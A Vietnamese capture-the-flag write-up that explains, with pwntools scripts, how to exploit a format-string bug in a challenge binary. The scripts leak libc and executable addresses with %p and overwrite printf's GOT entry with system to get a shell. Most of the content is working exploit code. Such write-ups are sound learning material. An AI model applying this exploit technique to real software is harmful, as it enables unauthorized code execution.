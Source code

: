 # IDA
Chương trình thực hiện nhập payload và ta để ý ở đây có lỗi FMT, nên ta có thể thay đổi got@printf thành system.
![image](https://user-images.githubusercontent.com/111769169/221399839-70442642-081e-4e39-a173-0d2b6c256df2.png)  
Đầu tiên ta cần leak được libc để tìm địa chỉ base  
Ở đây ta chú ý sẽ lấy libc ```0x007fffffffde78│+0x00f8: 0x007ffff7dbdd90  →  <__libc_start_call_main+128> mov edi, eax``` nên ta sẽ sử dụng %p để leak địa chỉ  
```python
#################
### Leak libc ###
#################
payload1 = b"%37$p"
r.sendlineafter(b">> ", b'1')
r.sendafter(b"payload: ", payload1)
r.recvuntil(b"submitted\n")
leak_libc = int(r.recvuntil(b"1. Submit", drop=True), 16)
libc.address = leak_libc - 0x1d90 - 0x28000
log.info("leak libc " + hex(leak_libc))
log.info("base " + hex(libc.address))
```
> Ở đây em kiểm tra lại địa chỉ system của chương trình ``` 0x7fcf79b90d60 ``` và địa chỉ sau khi tính toán ``` system 0x7fcf79bb8d60 ```  
> em thấy không giống nhau nên em đoán địa chỉ base của em tính sai nên em sẽ tính offset của system chương trình và địa chỉ system em tính là ``` 0x28000 ```
___
Tiếp theo ta sẽ leak địa chỉ exe để tìm base exe
Thì ta chọn địa chỉ nằm ``` 0x007fffffffde58│+0x00d8: 0x0000000040142b ``` vẫn dùng %p để leak và tính ra địa chỉ base exe
```python
### Leak exe ###
r.sendlineafter(b">> ", b"1")
payload2 = b"%33$p"
r.sendafter(b"payload: ", payload2)
r.recvuntil(b"submitted\n")
leak_exe = int(r.recvuntil(b"1. Submit", drop=True), 16)
exe.address = leak_exe - 0x42b - 0x2000
log.info("leak exe " + hex(leak_exe))
log.info("base exe " + hex(exe.address))
```
> tuy nhiên khi em chạy chương trình thì thấy địa chỉ printf@got của chương trình ```0x404040 printf@GLIBC_2.2.5``` và địa chỉ em tính ```0x00000000406040``` vẫn khác nhau do đó em lại tính offset ```-0x2000```
___
Tiếp đến ta sẽ OW GOT của printf
ở đây ta thấy sự khác biết của địa chỉ giữa GOT của printf ```printf@GLIBC_2.2.5  →  0x7ffff7df4770``` và địa chỉ hàm system ```0x7ffff7de4d60 <libc_system>```
khác biệt 3byte nên ta sẽ ghi đè 3 byte của printf

```python
part1 = (libc.sym['system']) & 0xff
part2 = (libc.sym['system']) >> 8 & 0xffff
log.info("system " + hex(libc.sym['system']))

payload3 = f'%{part1}c%10$hhn'.encode()
payload3 += f'%{part2 - part1}c%11$hn'.encode()
payload3 = payload3.ljust(0x20, b'A')
payload3 += p64(exe.got['printf'])
payload3 += p64(exe.got['printf']+1)

r.sendlineafter(b">> ", b"1")
r.sendafter(b"payload: ", payload3)

r.interactive()
```
> %hhn là ghi 1byte, %hn là 2byte, ta nên ghi đè 1 byte trước rồi mới ghi đè 2byte tiếp theo
___
Đến đây ta sẽ nhập ta chuỗi /bin/sh, có thể dùng script hoặc nhập tay =))
<details> <summary> script </summary>

  ```python
from pwn import *

r = process("./chall_patched")
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
gdb.attach(r, gdbscript='''
b* payload+105
c           
           ''')
input()

### Leak libc ###
payload1 = b"%37$p"
r.sendlineafter(b">> ", b'1')
r.sendafter(b"payload: ", payload1)
r.recvuntil(b"submitted\n")
leak_libc = int(r.recvuntil(b"1. Submit", drop=True), 16)
libc.address = leak_libc - 0x1d90 - 0x28000
log.info("leak libc " + hex(leak_libc))
log.info("base " + hex(libc.address))

### Leak exe ###
r.sendlineafter(b">> ", b"1")
payload2 = b"%33$p"
r.sendafter(b"payload: ", payload2)
r.recvuntil(b"submitted\n")
leak_exe = int(r.recvuntil(b"1. Submit", drop=True), 16)
exe.address = leak_exe - 0x42b - 0x2000
log.info("leak exe " + hex(leak_exe))

### OW GOT ###
part1 = (libc.sym['system']) & 0xff
part2 = (libc.sym['system']) >> 8 & 0xffff
log.info("system " + hex(libc.sym['system']))

payload3 = f'%{part1}c%10$hhn'.encode()
payload3 += f'%{part2 - part1}c%11$hn'.encode()
payload3 = payload3.ljust(0x20, b'A')
payload3 += p64(exe.got['printf'])
payload3 += p64(exe.got['printf']+1)

r.sendlineafter(b">> ", b"1")
r.sendafter(b"payload: ", payload3)

r.interactive()
```
  
  ![image](https://user-images.githubusercontent.com/111769169/221409669-3bc13aef-a975-4bb3-80a2-0a1a981c99da.png)

  
</details>
